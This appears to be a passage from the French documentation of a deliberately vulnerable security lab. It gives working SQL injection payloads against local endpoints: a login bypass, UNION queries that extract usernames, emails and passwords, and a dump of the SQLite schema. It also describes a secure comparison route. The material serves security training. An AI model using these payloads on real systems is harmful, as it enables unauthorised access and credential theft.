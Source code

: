 #### 3. Union-based injection (extraction de données)

**Email** :
```
' UNION SELECT id, name, email, password, clearance_level FROM users --
```

#### 4. Extraction de la structure de la base

**Email** :
```
' UNION SELECT name, sql, '', '', '' FROM sqlite_master WHERE type='table' --
```

### 🧪 Tests pratiques

#### Test 1: Bypass simple
1. Aller sur la page de login : http://localhost:5173/login
2. Email : `admin@octolab.org' OR '1'='1' --`
3. Password : `anything`
4. Observer la connexion réussie

#### Test 2: Extraction d'utilisateurs
1. Utiliser Burp Suite ou un outil similaire
2. Intercepter la requête POST vers `/api/auth/login`
3. Modifier le payload pour extraire tous les utilisateurs

#### Test 3: Analyse des logs
1. Observer les logs du serveur backend
2. Voir la requête SQL vulnérable s'afficher avec `🚨 REQUÊTE VULNÉRABLE EXÉCUTÉE:`

### 🛡️ Comparaison avec la version sécurisée

Une route sécurisée est disponible à `/api/auth/login-secure` qui utilise :
- Paramètres liés (prepared statements)
- Hachage bcrypt pour les mots de passe
- Validation appropriée des entrées

## 🔓 Vulnérabilité 2: SQL Injection dans l'API de recherche

### 📍 Localisation
- **Endpoint**: `GET /api/research?id=X`
- **Fichier**: `backend/routes/api.js`
- **Type**: SQL Injection dans les paramètres GET

### 🎯 Techniques d'exploitation

#### 1. Extraction de données
```
http://localhost:3001/api/research?id=1' UNION SELECT id, title, description, classification FROM research_projects --
```
